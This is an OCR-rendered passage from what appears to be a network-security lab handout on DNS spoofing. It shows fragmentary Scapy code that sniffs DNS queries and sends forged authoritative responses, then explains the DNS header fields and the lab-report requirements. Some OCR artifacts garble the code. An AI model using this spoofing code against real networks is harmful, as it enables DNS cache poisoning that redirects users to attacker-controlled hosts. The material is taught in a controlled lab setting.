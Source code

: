 ```
ttl=259200, rdata=’1.2.3.4’)
Addsec2 = DNSRR(rrname=’ns2.example.net’, type=’A’,
ttl=259200, rdata=’5.6.7.8’)
```
```
# Construct the DNS packet
DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1, Q
qdcount=1, ancount=1, nscount=2, arcount=2,
an=Anssec, ns=NSsec1/NSsec2, ar=Addsec1/Addsec2)
```
```
# Construct the entire IP packet and send it out
spoofpkt = IPpkt/UDPpkt/DNSpkt
send(spoofpkt)
```
# Sniff UDP query packets and invoke spoof_dns().
f = ’udp and dst port 53’
pkt = sniff(iface=’br-43d947d991eb’, filter=f, prn=spoof_dns) I

Please make sure replace the interface name in LineIwith the one in your system. LineQconstructs the
DNS payload, including DNS header and data. Each field of the DNS payload is explained in the following:

- id: Transaction ID; should be the same as that in the request.
- qd: Query Domain; should be the same as that in the Request.
- aa: Authoritative answer (1 means that the answer contains Authoritative answer).
- rd: Recursion Desired (0 means to disable Recursive queries).
- qr: Query Response bit (1 means Response).
- qdcount: number of query domains.
- ancount: number of records in the Answer section.
- nscount: number of records in the Authority section.
- arcount: number of records in the Additional section.
- an: Answer section
- ns: Authority section
- ar: Additional section

## 5 Submission

You need to submit a detailed lab report, with screenshots, to describe what you have done and what you
have observed. You also need to provide explanation to the observations that are interesting or surprising.
Please also list the important code snippets followed by explanation. Simply attaching code without any
explanation will not receive credits.


